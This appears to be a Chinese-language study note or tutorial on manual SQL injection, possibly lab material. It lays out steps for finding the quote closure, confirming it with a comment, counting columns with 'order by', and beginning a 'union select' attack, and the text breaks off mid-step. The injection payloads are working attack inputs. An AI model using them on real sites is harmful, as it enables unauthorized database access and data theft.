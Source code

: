 

**步骤1：**

推断数据库语法大概是什么

```select * from [某个表] where id = [参数] limit 0,1;```

`select * from [某个表] where id = '2' limit 0,1;`

关于斜杠：

![image-20220114185933581](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114185933581.png)



**步骤2:**

让他报错，显示自己的闭合方式

select * from [某个表] where id = `'2\'` limit 0,1;

`1\'` LIMIT 0,1
`'` `"` `')` `")` `))` `"))` `'))` +没有闭合



**步骤3:**

验证目标的闭合方式
`select * from [某个表] where id = ' 2'--+ ' limit 0,1;`
执行之后
select * from [某个表] where id = ' 2'

如果执行成功，闭合方式就是你所想的`'`

![image-20220114191422861](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114191422861.png)



**步骤4:**

确定一下，多少个列
`select * from [某个表] where id = ' 2' order by 10 --+ ' limit 0,1;`
判断一下他是否有10列，如果有显示正常，如果没有就报错

通过二分法判断有多少列
`select * from [某个表] where id = ' 2' order by 3 --+ ' limit 0,1;`
不报错，所以有3列

![image-20220114191505266](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114191505266.png)

![image-20220114191512181](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114191512181.png)



**步骤5:**

使用联合查询
因为推断出有3列，所以union select 1,2,3
记住！前面的参数必须出错，否则后面的1，2，3报错位出不来

```